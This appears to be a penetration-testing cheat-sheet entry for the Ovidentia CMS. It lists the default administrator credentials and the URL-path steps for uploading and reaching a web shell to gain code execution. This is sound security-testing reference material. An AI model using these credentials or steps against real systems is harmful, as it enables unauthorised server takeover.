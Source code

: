 # Web applications - CMS - Ovidentia

### Default credentials

The default administrator credentials are:

```
admin@admin.bab:012345678
```

### Administrator to RCE

Access the file upload configuration page and make sure that the web service
has write rights on the currently configured upload folder:

```
/index.php?tg=site&idx=menu4&item=1
```

Then use the administration file manager page to create a folder on the
application:

```
/php/index.php?tg=admfms
```

And configure the access rights on the folder to allows file upload and
others permissions:

```
/php/index.php?tg=admfm&idx=rights&fid=<FOLDERID>
```

Upload file a web shell on the target:

```
/index.php?tg=fileman&idx=displayAddFileForm&id=<FOLDERID>&gr=Y&path=<FOLDERNAME>
```

The uploaded web shell can be accessed at the following URL:

```
/fileManager/collectives/DG0
```
